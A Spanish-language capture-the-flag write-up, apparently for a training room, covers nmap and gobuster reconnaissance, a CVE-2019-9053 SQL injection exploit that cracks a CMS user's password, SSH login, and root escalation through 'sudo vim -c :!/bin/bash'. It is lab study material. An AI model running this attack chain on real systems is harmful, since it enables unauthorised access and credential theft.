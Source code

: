 
# Objetivo 


# Solución 

¿Cuántos servicios se están ejecutando en el puerto 1000?
El comando que podemos utilizara para poder obtener esta información es el comando 

sudo nmap  -T4 -sS direccion ip de la maquina -p -

┌──(jordan㉿kali)-[~/Ejr]
└─$ sudo nmap -T4 -sS 10.10.36.219 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-19 12:03 CST
Stats: 0:00:22 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.97% done
Stats: 0:00:25 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 1.13% done; ETC: 12:40 (0:36:25 remaining)
Stats: 0:00:26 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 1.17% done; ETC: 12:38 (0:35:07 remaining)
Stats: 0:00:26 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 1.23% done; ETC: 12:38 (0:34:48 remaining)
Stats: 0:01:23 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 5.36% done; ETC: 12:28 (0:24:07 remaining)
Stats: 0:04:46 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 24.86% done; ETC: 12:22 (0:14:25 remaining)
Stats: 0:07:23 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 46.16% done; ETC: 12:19 (0:08:36 remaining)
Stats: 0:09:07 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 59.13% done; ETC: 12:18 (0:06:18 remaining)
Nmap scan report for 10.10.36.219
Host is up (0.69s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1

jordan㉿kali)-[~/Ejr]
└─$ gobuster dir -u 10.10.36.219 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.36.219
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/simple               (Status: 301) [Size: 313] [--> http://10.10.36.219/simple/]
Progress: 36831 / 87665 (42.01%)[ERROR] Get "http://10.10.36.219/daz": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.10.36.219/UofC": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.10.36.219/1581128576": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.10.36.219/reserved": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.10.36.219/civilization": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.10.36.219/Fortress": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.10.36.219/linkz": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 36840 / 87665 (42.02%)[ERROR] Get "http://10.10.36.219/infoweek": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 87664 / 87665 (100.00%)



¿Qué se está ejecutando en el puerto superior?
SSH

¿Cuál es el CVE que estás usando contra la aplicación?
CVE-2019-9053

¿A qué tipo de vulnerabilidad es vulnerable la aplicación?
SQLi
¿Cuál es la contraseña?

┌──(jordan㉿kali)-[~/Ejr]
└─$ python3 exployt.py  -u http://10.10.36.219/simple/ --crack -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@a4
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
                                
¿Dónde se puede iniciar sesión con los datos obtenidos?
SSH

¿Cuál es la marca de usuario?

┌──(jordan㉿kali)-[~/Ejr]
└─$ ssh -l mitch 10.10.36.219 -p 2222                                                                                         
The authenticity of host '[10.10.36.219]:2222 ([10.10.36.219]:2222)' can't be established.
ED25519 key fingerprint is SHA256:iq4f0XcnA5nnPNAufEqOpvTbO8dOJPcHGgmeABEdQ5g.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? y
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added '[10.10.36.219]:2222' (ED25519) to the list of known hosts.
mitch@10.10.36.219's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ ls
user.txt
$ cat user.txt
G00d j0b, keep up!
$ ^C
$ ls /home
mitch  sunbath
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
$ sudo vim -c ':!/bin/bash'

root@Machine:~# cd /root
root@Machine:/root# ls
root.txt
root@Machine:/root# cat root.txt
W3ll d0n3. You made it!
root@Machine:/root# 

# Notas 

